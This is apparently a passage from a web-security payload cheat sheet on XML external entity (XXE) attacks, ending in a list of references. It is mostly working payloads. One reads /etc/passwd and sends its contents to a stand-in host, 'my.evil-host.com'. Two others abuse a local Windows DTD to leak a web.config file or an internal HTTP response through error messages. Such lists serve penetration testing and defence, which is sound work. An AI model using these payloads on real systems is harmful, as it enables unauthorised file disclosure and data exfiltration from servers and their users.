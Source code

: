 ```xml
<!-- Load the contents of a sensitive file into a variable -->
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!-- Use that variable to construct an HTTP get request with the file contents in the URL -->
<!ENTITY % param1 '<!ENTITY &#37; external SYSTEM "http://my.evil-host.com/x=%payload;">'>
%param1;
%external;
```

## Windows Local DTD and Side Channel Leak to disclose HTTP response/file contents

From https://gist.github.com/infosec-au/2c60dc493053ead1af42de1ca3bdcc79

### Disclose local file

```xml
<!DOCTYPE doc [
    <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
    <!ENTITY % SuperClass '>
        <!ENTITY &#x25; file SYSTEM "file://D:\webserv2\services\web.config">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://t/#&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
      <!ENTITY test "test"'
    >
    %local_dtd;
  ]><xxx>cacat</xxx>
```

### Disclose HTTP Response:

```xml
<!DOCTYPE doc [
    <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
    <!ENTITY % SuperClass '>
        <!ENTITY &#x25; file SYSTEM "https://erp.company.com">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://test/#&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
      <!ENTITY test "test"'
    >
    %local_dtd;
  ]><xxx>cacat</xxx>
```

## References

- [XML External Entity (XXE) Processing - OWASP](<https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing>)
- [XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
- [Detecting and exploiting XXE in SAML Interfaces](http://web-in-security.blogspot.fr/2014/11/detecting-and-exploiting-xxe-in-saml.html) - 6. Nov. 2014 - Von Christian Mainka
- [[Gist] staaldraad - XXE payloads](https://gist.github.com/staaldraad/01415b990939494879b4)
- [[Gist] mgeeky - XML attacks](https://gist.github.com/mgeeky/4f726d3b374f0a34267d4f19c9004870)
- [Exploiting xxe in file upload functionality - BLACKHAT WEBCAST - 11/19/15 - Will Vandevanter - @_will_is_](https://www.blackhat.com/docs/webcast/11192015-exploiting-xml-entity-vulnerabilities-in-file-parsing-functionality.pdf)
- [XXE ALL THE THINGS!!! (including Apple iOS's Office Viewer)](http://en.hackdig.com/08/28075.htm)
- [From blind XXE to root-level file read access - December 12, 2018 by Pieter Hiele](https://www.honoki.net/2018/12/from-blind-xxe-to-root-level-file-read-access/)